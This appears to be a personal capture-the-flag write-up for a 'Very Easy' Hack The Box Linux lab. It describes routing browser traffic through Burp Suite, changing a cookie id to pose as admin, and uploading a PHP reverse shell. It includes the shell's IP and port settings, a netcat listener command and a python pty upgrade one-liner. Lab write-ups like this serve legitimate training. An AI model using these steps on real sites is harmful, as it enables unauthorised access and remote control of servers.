 # TO DO
- [ ] More about Cookies
- [ ] Esc + Esc = sudo. [Link](https://youtu.be/YmZLdJRBKv0?t=2578https://youtu.be/YmZLdJRBKv0?t=2578)
- [ ] Check all


# Intro
| Dificulty | OS | Start Date | End Date | 
|---|---|---|---|
| Very Easy | Linux | 03/06/2022 | 05/06/2022 |


# Process
1. Common enumeration.
2. Use Burp Suite to find new directories.
3. Manipulate cookies to be admin and upload files.
4. Dirbust the site to find where are the uploads located.
5. Upload reverse shell 


# Burpsuite
1. Configure Firefox to send traffic trought the proxy.
2. Settings > Search "Proxy" > Settings.
3. Change to Manual proxy. Enter Loopback @IP and port 8080
4. Disable interception in Burp as it's 
5. Proxy > Intercept > Intercept in on (Disable)


# Cookies 
Found that admin was id=34322 so change the Guest id to simulate he's the admin.
![[Pasted image 20220530192240.png]]


# Reverse Shell
Located in `/usr/share/webshells/php/php-reverse-shell.php`
Change port and ip and then upload the file.
```bash
$ip = '10.10.15.56';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
```

Set up a netcat listener on the same port.
```bash
$ nc -lvnp 1234
```

In order to have a functional shell can execute this command:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Search for common directories. This is a Web Server so is a good idea to check `/var/www/html/xxx/`

!!! PROBLEMES DE VPN 


# Tags
#HTB 
